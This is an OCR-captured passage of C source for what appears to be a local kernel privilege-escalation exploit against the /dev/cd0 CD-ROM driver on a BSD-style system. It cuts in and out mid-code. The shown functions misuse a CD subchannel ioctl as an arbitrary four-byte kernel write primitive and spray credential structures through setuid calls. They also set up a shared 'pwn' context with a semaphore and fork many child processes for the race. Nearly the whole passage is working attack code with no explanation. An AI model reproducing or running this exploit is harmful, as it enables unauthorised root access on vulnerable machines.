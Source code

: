 ```c
}

void write_4_zeros(int fd, unsigned long target)
{
  struct ioc_read_subchannel io = {0}; 
  io.address_format = CD_LBA_FORMAT;
  io.data_format = CD_CURRENT_POSITION;
  io.data = (struct cd_sub_channel_info *)target;
  io.data_len = 4;
  io.track = 0;

  if(ioctl(fd, CDIOCREADSUBCHANNEL_SYSSPACE, &io, 0 ,0) == -1) {
    perror("Unable to perform write_4: ");
    cleanup();
  }
}

void malloc_cred()
{
  setuid(UID);
}

void set_fd()
{
  fd = open("/dev/cd0", O_RDONLY);
  if(fd < 0) {
    perror("Unable to open /dev/cd0: ");
    cleanup();
  }  
}

void set_ctx()
{
  pwn_ctx = mmap(0, sizeof(struct pwn_ctx_), PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
  if(pwn_ctx == (void*)-1) {
    perror("[-] mmaping ctx failed: ");
    cleanup();
  }

  memset(pwn_ctx, '\0', sizeof(struct pwn_ctx_));
  pwn_ctx->sem = sem_open("/pwn", O_CREAT, S_IRUSR|S_IWUSR, 0);
  if(pwn_ctx->sem == SEM_FAILED) {
    perror("[-] Failed to create semaphore: ");
    cleanup();   
  }
  if(sem_init(pwn_ctx->sem, 1, 1) != 0) {
    perror("[-] Failed to init semaphore: ");
    cleanup();      
  }
}

void forkslay(int n)
{
  for(int i = 0; i < n; i++)
  {
    pid_t pid = fork();
    if(pid == -1) {
      perror("Unable to fork: ");
      cleanup();
    }
    if(pid == 0) {
      // wait till all forks are done
```